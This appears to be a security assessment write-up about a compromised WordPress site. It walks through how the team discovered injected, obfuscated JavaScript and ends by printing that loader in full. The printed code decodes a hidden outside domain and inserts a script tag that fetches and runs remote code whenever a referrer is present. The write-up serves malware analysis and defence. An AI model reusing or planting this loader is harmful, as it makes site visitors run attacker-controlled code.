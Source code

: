 ## Discovery Timeline

Our security assessment of [REDACTED] began with a standard web application reconnaissance phase, during which we discovered suspicious JavaScript code on the website that was heavily obfuscated. This code was responsible for dynamically loading additional JavaScript from an external domain.

Initial discovery involved several key steps:

- Manual code inspection of the site's JavaScript resources
- Network traffic analysis showing connections to suspicious domains
- Use of headless browser testing with Puppeteer to confirm active malicious behavior
- Verification that the script was only activating when a referrer header was present

The investigation then expanded to include domain analysis, payload behavior assessment, and comparison against known threat actor techniques. It was messy before it got all nice and organized like this.

## Technical Investigation

### Initial Recon Findings

Our investigation began with standard web application fingerprinting, which identified the site as running WordPress with several plugins including Gravity Forms. While attempting to enumerate potential vulnerabilities, we observed suspicious network requests to domains outside the expected traffic patterns for the site.

A review of the source code revealed obfuscated JavaScript that did not appear to serve any legitimate purpose for the site's functionality. This code was found embedded within the site's frontend JavaScript and heavily obfuscated (encoded).

### Obfuscated JavaScript Analysis

The following obfuscated JavaScript was found on the website:

```javascript
(function(_0xc59469,_0x1be38e){var _0x4e20c3=_0x442d,_0x3c2d09=_0xc59469();while(!![]){try{var _0x3c8895=-parseInt(_0x4e20c3(0xb6))/0x1*(-parseInt(_0x4e20c3(0xbc))/0x2)+parseInt(_0x4e20c3(0xb7))/0x3+-parseInt(_0x4e20c3(0xc4))/0x4*(-parseInt(_0x4e20c3(0xc1))/0x5)+-parseInt(_0x4e20c3(0xb9))/0x6+parseInt(_0x4e20c3(0xc0))/0x7+-parseInt(_0x4e20c3(0xbd))/0x8+-parseInt(_0x4e20c3(0xbb))/0x9;if(_0x3c8895===_0x1be38e)break;else _0x3c2d09['push'](_0x3c2d09['shift']());}catch(_0x3a9717){_0x3c2d09['push'](_0x3c2d09['shift']());}}}(_0x2bda,0x57e32),function(_0x17c8ea,_0x2572e7){var _0x45965e=_0x442d,_0x4c3cdb=Math['floor'](Date[_0x45965e(0xbe)]()/0x3e8),_0x5c98df=_0x4c3cdb-_0x4c3cdb%0xe10;_0x4c3cdb=_0x4c3cdb-_0x4c3cdb%0x258,_0x4c3cdb=_0x4c3cdb[_0x45965e(0xbf)](0x10);if(!document[_0x45965e(0xba)])return;const _0x26bed4=atob(_0x45965e(0xc6));_0x2572e7=_0x17c8ea[_0x45965e(0xb8)](_0x45965e(0xc9)),_0x2572e7[_0x45965e(0xc2)]='text/javascript',_0x2572e7[_0x45965e(0xc7)]=!![],_0x2572e7[_0x45965e(0xca)]=_0x45965e(0xc8)+_0x26bed4+_0x45965e(0xc5)+_0x5c98df+'.js?ver='+_0x4c3cdb,_0x17c8ea['getElementsByTagName']('head')[0x0][_0x45965e(0xc3)](_0x2572e7);}(document));function _0x442d(_0x2d5425,_0x24f6b1){var _0x2bdaa6=_0x2bda();return _0x442d=function(_0x442dcc,_0xed4883){_0x442dcc=_0x442dcc-0xb6;var _0x3d5d1e=_0x2bdaa6[_0x442dcc];return _0x3d5d1e;},_0x442d(_0x2d5425,_0x24f6b1);}function _0x2bda(){var _0x5e335c=['script','src','14DpQhBD','584673URYUaU','createElement','2561046jKBsjh','referrer','3560382XMVYNj','7706THDVnA','489360rDhlQm','now','toString','4117806bwNLOr','59780dGwAwr','type','appendChild','136qCYCNj','/my.counter.','bG9hZC4zNjVhbmFseXRpY3MueHl6','async','https://'];_0x2bda=function(){return _0x5e335c;};return _0x2bda();}
```

